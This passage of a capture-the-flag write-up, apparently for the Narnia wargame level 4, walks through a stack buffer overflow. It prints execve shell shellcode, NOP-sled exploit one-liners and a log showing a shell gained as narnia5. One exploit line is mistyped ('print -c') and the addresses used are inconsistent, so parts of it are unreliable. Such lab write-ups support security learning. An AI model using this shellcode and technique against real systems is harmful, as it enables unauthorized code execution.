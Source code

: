 

### Step 4: Writing and Applying the Exploit

We know that the Stack has size of 272 bytes and that the return address is **0xffffd5dc**.  If we add the return address, it sums to 276.

Now we have some freedom to choose where to place our shellcode. Let's say, we place it somewhere in the middle, say, at the position 134. In the memory, we get: ```0xffffd5cc - 134 = 0xffffd546```.

Since 276 minus 134 is 142, if we point the return address to   **0xffffd546**, it will go to the 142th position in the Stack and execute whatever is there. We want to make sure that the return address will always end in the shellcode address and for this reason we fill the addresses around with NOPs.


We will borrow the shellcode from the previous levels, which has size of 25 bytes:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80
```

Considering the values above, we can write the following exploit:

```
`python -c "print '\x90'*142 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*105 + '\x46\xd5\xff\xff'"`
```

We could have used another address to craft another version of the exploit. Then we would have to simply adjust our NOPs and our paddings. For example, ```0xffffd5cc - 120 = 0xffffd554```:

```
`print -c "'\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'" `
```

They both work.

We finally apply our exploit:
```
narnia4@melinda:/tmp$ python -c "print '\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'"
������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��P���
              AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT���
narnia4@melinda:/tmp$ /narnia/narnia4 `python -c "print '\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'"`
$ whoami
narnia5
```



----------

All right, we have completed half of the challenges from Narnia. Soon I will post the other half.
